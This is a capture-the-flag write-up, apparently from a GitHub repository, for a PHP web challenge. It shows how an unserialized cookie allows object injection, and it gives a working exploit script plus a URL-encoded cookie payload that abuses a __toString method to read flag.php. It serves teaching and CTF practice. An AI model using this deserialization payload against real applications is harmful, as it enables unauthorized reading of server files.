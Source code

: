 
#### Goals
 * Try to find the flag

#### Server Address
 * http://web.sniperoj.com:10002/

#### Writeups
1. access the url, we can find that there is a input form, try to input something.
2. notice cookie has been changed, a key 'list' is added.
```
a%3A1%3A%7Bi%3A0%3Bs%3A16%3A%22Hacked+by+smi1e%21%22%3B%7D
decode as url
a:1:{i:0;s:16:"Hacked by smi1e!";}
```
which means that the php code running on the server may like this
```php
$input = $_POST['a'];
$inputs = unserialize($_COOKIE['list']);
array_push($inputs, $input);
echo join('', $array);
```
3. PHP object injection!
4. then we check the html source code generated by index.php
found something interesting at the bottom
```php
#try to read flag.php	
Class whatthefuck{
	public function __toString()
	{
		return highlight_file($this->source,true);
	}
}
```
5. all we need to do is try to call the `_toString` function of `class whatthefuck` to read the `flag.php`
6. here are the final exploit.
```php
➜  guess-the-code ls
exploit.php  flag.php
➜  guess-the-code cat exploit.php 
<?php

#try to read flag.php	
Class whatthefuck{
	public function __toString()
	{
		return highlight_file($this->source,true);
	}
}

$x = new whatthefuck();
$x->source='flag.php';
$y = serialize(array($x));
$z = unserialize($y);
echo $z;
```
```
put the following string as $_COOKIE['list'];
a%3A1%3A%7Bi%3A0%3BO%3A11%3A%22whatthefuck%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D
```


## 版权

该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（wangyihanger@gmail.com）
